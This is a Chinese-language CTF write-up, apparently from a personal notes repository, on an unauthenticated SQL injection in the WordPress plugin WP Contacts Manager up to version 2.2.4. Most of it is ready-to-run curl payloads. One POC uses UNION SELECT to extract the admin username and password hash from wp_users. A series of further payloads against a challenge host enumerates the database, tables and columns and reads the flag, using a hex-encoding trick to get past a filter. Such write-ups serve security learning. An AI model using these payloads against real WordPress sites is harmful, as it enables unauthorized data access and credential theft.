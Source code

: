 ## 1. 漏洞介绍
[WP Contacts Manager <= 2.2.4 - Unauthenticated SQLi](https://wpscan.com/vulnerability/eb9e202d-04aa-4343-86a2-4aa2edaa7f6b/)

wordpress插件 WP Contacts Manager <= 2.2.4 对用户输入的转义不够充分，导致了SQL注入。
## 2. 漏洞复现
### 2.1. POC

```shell
curl 'http://127.0.0.1:8080/wp-admin/admin-ajax.php?action=WP_Contacts_Manager_call&type=get-contact' --data '{"id":"1\u0027 UNION ALL SELECT 1,(SELECT user_login FROM wp_users WHERE ID = 1),(SELECT user_pass FROM wp_users WHERE ID = 1),4,5,6,7,8,9,0,1,2; -- "}'
```

### 2.2. 查数据库

```shell
curl 'http://ec……chunqiu.com/wp-admin/admin-ajax.php?action=WP_Contacts_Manager_call&type=get-contact' --data '{"id":"1\u0027 UNION ALL SELECT 1,(SELECT database()),3,4,5,6,7,8,9,0,1,2; -- "}'
```

![0.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310080954353.png)

### 2.3. 查数据表
注，将库名 ctf 16进制编码后或直接用database()代入查询

```shell
curl 'http://eci……1.ichunqiu.com/wp-admin/admin-ajax.php?action=WP_Contacts_Manager_call&type=get-contact' --data '{"id":"1\u0027 UNION ALL SELECT 1,(SELECT group_concat(table_name) from information_schema.tables where table_schema=database()),3,4,5,6,7,8,9,0,1,2; -- "}'
```

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310080951682.png)

### 2.4. 查字段
注，flag 的16进制编码：0x666c6167【后端应该有过滤，直接用表名 flag 返回null】

```shell
curl 'http://ec……ci1.ichunqiu.com/wp-admin/admin-ajax.php?action=WP_Contacts_Manager_call&type=get-contact' --data '{"id":"1\u0027 UNION ALL SELECT 1,(SELECT group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x666c6167),3,4,5,6,7,8,9,0,1,2; -- "}' 
```

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310080951104.png)

### 2.5. 读取 flag

```shell
curl 'http://e……1.ichunqiu.com/wp-admin/admin-ajax.php?action=WP_Contacts_Manager_call&type=get-contact' --data '{"id":"1\u0027 UNION ALL SELECT 1,(SELECT flag from flag),3,4,5,6,7,8,9,0,1,2; -- "}' 
```

![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310080951197.png)
